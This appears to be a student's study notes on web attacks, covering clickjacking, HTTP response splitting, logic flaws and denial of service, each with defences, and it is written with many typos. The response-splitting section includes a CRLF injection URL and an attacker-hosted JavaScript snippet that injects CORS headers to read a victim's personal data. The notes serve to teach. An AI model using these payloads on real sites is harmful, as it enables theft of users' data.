 # ClickJacking
- Clickjacking is a technique, also known as User Interface (UI) redressing
- Technically, an attacker that wants to perform this attack crafts a malicious HTML page. This page can contain two overlapping layers, one malicious and the other the actual target of the click.
- malicous layer is what is visible to the user and contain innocuous(غير موذية) resource that the vivtim should feel secure clicking it
- the target layes is included via iframe is invisible to the victim and contain resource that will actuelly be clicked
   - this layer usually contain a button that will perform and operation that the victim would be unwilling to perform under normal circumstances
- That attack comprimises Four Steps
  - Feasability Study
  - Building Of a malicous web page
  - spreading the malicous page link
  - waiting for victim to click
- Clickjacking can be leveraged to perform a wide number of attacks such as:
	- forcing users to click on ads
	- performing any action that only requires clicking on a website
- clickjacking defenses
	- The Old School : Tries to avoid clickjacking by using JavaScript code
	- The Current School : HTTP response headers, Content Security Policy, Browser Frame-Breaker
		- It can have two different values: 
			- SAME ORIGIN : The document may be shown inside an iframe only if the container page (under the control of the attacker) and the contained document share the same origin.
			- DENY : The document may not be shown inside an iframe, regardless of the container’s origin.
			- X-Frame-Options
- Watch Video
# HTTP Response Splitting
- This type of Header Injection attack occurs when an attacker `sends` arbitrary data to the server and this data is `returned` as part of the HTTP response.
- Goal : Split the Response into two parts by means of special characters CRLF:
	-  CR (Carriage Return) – `[ \r ]`
	-  LF (Line Feed) – `[ \n ]`
- the use of these charachters is related to how the http protoclo determines the begining of the http response header ( affects all browsers )
- goal of the attacker is to craft http response by sending malicious input including the crafted headers and the special charachters
- A `Header injection` attack would add new Headers to the current HTTP Response block.
- but this attack not only injecting data into headers but alos creating a new http response block with new headers
- Example :
	- A web application puts User Input into one of the Response Headers. This header is Set-Cookie.
	- xss
	- `GET http://target.site/trackUrl.php?url=http://elsfoo.com%0d%0aHTTP/1. 1%20200%20OK%0d%0aContent%2dType:%20text/html%0d%0aContent%2dLengt h:%2039%0d%0a%0d%0a`	
- Bypass Same Origin Policy
- Example
	- Suppose a webpage named getPersonalData.php returns the personal data of the currently logged-in user and that the page is vulnerable to HTTP response splitting (in the trackingUrl parameter).
	- Attacker build a malicious page with this URL http://attacker.site/evil.php.
	- The following is the code of evil.php:
```
	<script>
function loadXMLDoc()
 {
 var xmlhttp;
 xmlhttp=new XMLHttpRequest();
 xmlhttp.withCredentials = true;
 xmlhttp.onreadystatechange=function()
 {
 if (xmlhttp.readyState==4 && xmlhttp.status==200)
 {
 document.getElementById("responseDiv").innerHTML=xmlhttp.responseText;
 }
 }
 
xmlhttp.open("GET","http://target.site/getPersonalData.php?trackingUrl=test%0d%0aAcces
s-Control-Allow-Origin:%20http://attacker.site%0d%0aAccess-Control-AllowCredentials:%20true",true);
 xmlhttp.send();
 }</script>
```

- Best Defensive
	- Filter the input data
	- PHP
	- `header(“Location: elsfoo.com”);`
	- PHP v5.1.4 both critical characters CR and LF have been denied within the function header
- read the examples again it wont take 10 min form the orignal PDF
# Logic Flow
- The best way to detect them is by analyzing the transaction chart of all the processes that the web application provides.
- read the logic flaw it wont take 2 minutes
- Best Defensive
	- Analyze all processes
	- process should be compliant to business rules
# Denial of Services
- Occurs when a system, designed to provide a certain service, stops providing that service to users, after receiving multiple malicious requests.
- This generally occurs because some server resource is overloaded (RAM, CPU, HD, bandwidth, etc.).
- attack the cia triad in the availabiltiy section
- DDoS attacks are the most difficult to prevent because their origin cannot be isolated
- Type 
	- DoS due to a huge number of REQUESTS
	- DoS due to GREEDY PAGES
 - in case of greedy page the attacker perform http request to each page available on the target site and analyzed the time of each request
- Best Defensive
	- Detecting and blocking malicious requests
	- IP blacklisting

